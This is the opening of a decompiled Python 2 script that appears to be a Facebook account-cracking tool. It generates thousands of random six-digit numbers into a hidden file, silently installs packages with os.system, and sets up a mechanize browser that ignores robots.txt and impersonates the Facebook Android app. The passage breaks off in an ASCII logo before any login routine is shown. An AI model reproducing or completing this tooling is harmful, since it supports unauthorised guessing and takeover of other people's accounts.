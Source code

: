 # rakib..py# Decompile by KangEhem:)
# with (uncompyle6) version : 3.7.4
# Time Succes decompile : 2022-09-07 08:13:36.727454
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(7000):
    number = random.randint(111111, 999999)
    
    sys.stdout = open('.txt', 'a')
    print(number)
    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 number.py')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
def exb():
	print '[!] Exit'
	os.sys.exit()
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)
def t():
    time.sleep(1)
def cb():
    os.system('clear')
B='\033[1;94m'
K='\033[1;90m'
M='\033[1;98m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'
logo = """
\033[1;91m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●
\033[1;92m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●
\033[1;93m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●